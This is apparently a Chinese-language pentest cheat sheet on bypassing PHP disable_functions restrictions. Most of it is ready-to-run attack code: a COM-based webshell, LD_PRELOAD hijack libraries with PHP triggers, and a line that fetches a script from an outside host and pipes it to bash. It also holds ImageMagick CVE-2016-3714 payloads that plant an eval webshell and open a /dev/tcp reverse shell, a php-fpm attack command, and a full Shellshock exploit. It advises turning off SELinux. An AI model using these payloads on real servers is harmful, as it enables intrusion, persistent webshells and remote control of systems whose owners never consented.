




### PHP绕过disable_function限制

[ 突破 disable_functions](https://www.anquanke.com/post/id/197745)

为了安全,运维人员会禁用PHP的一些“危险”函数,将其写在php.ini配置文件中,就是我们所说的 `disable_functions` 了。例如：

`passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,link等`

将这些危险函数全部禁用，我们可以通过观察函数是否执行查看是否存在可利用的函数。


**利用系统组件绕过**

`window com组件(PHP5.4自带)(高版本扩展要自己添加）`

测试：
```php
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
```
`?a=command`


**常规绕过**

`常规绕过：exec,shell_exec,system,passthru,popen,proc_open`
将
1. exec
    ```php
    <?phpecho exec('whoami');?>
    ```
2. shell_exec
    ```php
    <?phpecho shell_exec('whoami');?>
    ```
3. system
    ```php
    <?phpsystem('whoami');?>
    ```


**利用环境变量 LD_PRELOAD 来绕过**

前提：
linux环境中，putenv()、mail()函数可用。

记得先关闭安全模式
`setenforce 0`

当 disable_functions 禁用了命令执行函数，如`shell_exec`,`system`等等。webshell 无法执行系统命令时，可以通过环境变量 LD_PRELOAD 劫持系统函数。

我们先做个小实验看看 LD_PRELOAD 能否直接使用

touch test.c
```c
#include <unistd.h>
#include <sys/types.h>

uid_t geteuid(void){
        system("cat /etc/passwd");
}
```
生成动态链接库

`gcc --share -fPIC test.c -o test.so`

使用 LD_PRELOAD 加载刚生成的 test.so，再执行 id 命令看看效果

`LD_PRELOAD=./test.so id`



执行成功！

**LD_PRELOAD 作为进程独占环境变量，它与待执行命令间必须为空白字符**

如果 `mail()` 函数无法使用，也可以使用 `error_log('',1)` 或者 `mb_send_mail('','','')` 和 `imap_mail("1@a.com","0","1","2","3")`（如果 PHP 开启了 imap 模块）


如何利用：
编写`bypass_disablefunc.php`和`bypass_disablefunc.so`,并上传到目标服务器

编写一个自己的动态链接程序，test.c:
```c
#include<stdlib.h>
#include <stdio.h>
#include<string.h>

void payload(){
         FILE*fp = fopen("/tmp/2.txt","w");
         fclose(fp);
         system("mkdir /var/www/html/test");
 }
int geteuid(){
  FILE *fp1=fopen("/tmp/2.txt","r");
  if(fp1!=NULL)
  {
   fclose(fp1);
         return 552;
        }else {
         payload();
         return 552;
       }
}

//各种payload都一个意思
```
当这个共享库中的`geteuid`被调用时，尝试加载`payload()`函数，执行命令，在`/var/www/html`目录下创建一个名字为`test`的文件。

编译so文件
```bash
gcc -c -fPIC test.c -o test
gcc -shared test -o test.so
```


我们把`test.so`放到WEB目录，然后编写一个PHP文件进行测试：

```php
<?php
   putenv("LD_PRELOAD=/var/www/html/test.so");
   mail("","","","","");
  ?>
```


借用大佬写的动态连接代码
```c
#include <stdlib.h>
__attribute__((constructor)) void j0k3r(){
    unsetenv("LD_PRELOAD");
    if (getenv("cmd") != NULL){
        system(getenv("cmd"));
    }else{
        system("echo 'no cmd' > /tmp/cmd.output");
    }
}
```

上传php页面尝试执行命令


```php
<?php
$cmd=@$_GET['cmd'];
putenv("cmd=".$cmd);
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>


<?php
putenv("cmd=curl -A o -o- -L http://192.168.91.1:55413/a | bash -s");
putenv("LD_PRELOAD=/var/www/html/test.so");
mail('','','','');
?>

```

执行时间要过个几十秒吧。


### 利用 ImageMagick 命令执行漏洞 bypass disable_functions

利用 [ImageMagick 命令执行漏洞（CVE-2016–3714）](https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1)

> ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

**获取环境**

拉取镜像到本地

`$ docker pull medicean/vulapps:i_imagemagick_1`

启动环境

`$ docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1`

 > -p 8000:80 前面的 8000 代表物理机的端口，可随意指定。

- 使用与利用
- 本地测试

在容器中 `/poc.png` 文件内容如下：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

在物理机上直接执行下面命令验证漏洞：

`$ docker exec i_imagemagick_1 convert /poc.png 1.png`

或进入 docker容器 shell 中执行：

`$ convert /poc.png 1.png`

如果看到 `ls -al 命令成功执行`，则存在漏洞。




**远程命令执行测试和使用POC**

远程命令执行无回显，可通过写文件或者`反弹 shell` 来验证漏洞存在。

目标图片：


- 写一句话到网站根目录下：
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://xxxxx.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
    pop graphic-context
    ```

- 反弹 shell:
    ```bash
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/1.jpg"|bash -i >& /dev/tcp/192.168.1.101/2333 0>&1")'
    pop graphic-context
    ```
将上述两个 `Exp` 经过 `base64 编码`后发送到远程 `poc.php`，querystring 的 key 为 img。



发送后发现命令执行成功，生成了对应的shell.php


使用蚁剑连接：


**poc.php内容**

```php
<?php
function readImageBlob() {
    $base64 = "iVBORw0KGgoAAAANSUhEUgAAAM0AAAD
 NCAMAAAAsYgRbAAAAGXRFWHRTb2Z0d2FyZQBBZG9iZSBJbWFnZVJlYWR5c
 cllPAAAABJQTFRF3NSmzMewPxIG//ncJEJsldTou1jHgAAAARBJREFUeNrs2EEK
 gCAQBVDLuv+V20dENbMY831wKz4Y/VHb/5RGQ0NDQ0NDQ0NDQ0NDQ0NDQ
 0NDQ0NDQ0NDQ0NDQ0NDQ0NDQ0PzMWtyaGhoaGhoaGhoaGhoaGhoxtb0QGho
 aGhoaGhoaGhoaGhoaMbRLEvv50VTQ9OTQ5OpyZ01GpM2g0bfmDQaL7S+ofFC6x
 v3ZpxJiywakzbvd9r3RWPS9I2+MWk0+kbf0Hih9Y17U0nTHibrDDQ0NDQ0NDQ0
 NDQ0NDQ0NTXbRSL/AK72o6GhoaGhoRlL8951vwsNDQ0NDQ1NDc0WyHtDTEhD
 Q0NDQ0NTS5MdGhoaGhoaGhoaGhoaGhoaGhoaGhoaGposzSHAAErMwwQ2HwRQ
 AAAAAElFTkSuQmCC";
    if(isset($_POST['img'])){
        $base64 = $_POST['img'];
    }
    $imageBlob = base64_decode($base64);

    $imagick = new Imagick();
    $imagick->readImageBlob($imageBlob);

    header("Content-Type: image/png");
    echo $imageBlob;
}
```
集成的 ImageMagick 命令执行漏洞（CVE-2016–3714）

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "n";

function AAAA(){
$command = 'curl 127.0.0.1:7777'; # 命令

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
}
AAAA();
?>
```


**攻击 php-fpm/FastCGI bypass disable_functions 绕过**

Web Server 只是负责分发数据，那如果 Nginx 遇到 php 动态请求该怎么处理，这时就需要了解 PHP-FPM 和 FastCGI 了.
php-fpm是实现FastCGI协议的一个介于webserver(如nginx)和php解释器的一个程序，事实上php-fpm内嵌有php解释器。webserver将用户请求按照fastcgi协议打包发给php-fpm，经php解释器解析后将标准内容再返回给webserver。

PHP5.3 版本之后，PHP-FPM 是内置于 PHP 的，一般来说，尤其是在高并发的情况下，nginx + PHP-FPM 的组合要比 apache + mod_php 好很多.

使用 `fpm.py` 脚本:https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

本地测试
```
python fpm.py -c '<?php echo `id`;exit;?>' -p 9999 127.0.0.1 /var/www/html/test.php
```


**PHP 5.x Shellshock Exploit**

> PHP < 5.6.2 'Shellshock' Safe Mode

[exploit-db上的Poc](https://www.exploit-db.com/exploits/35146)

**环境**：Debian 7 and CentOS 5 and 6

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```

命令:`?cmd=/usr/bin/id`

### FFI 绕过 disable_functions

`PHP7.4` 的一个新特性 `FFI（Foreign Function Interface）`，即外部函数接口，可以让我们在 PHP 中调用 C 代码


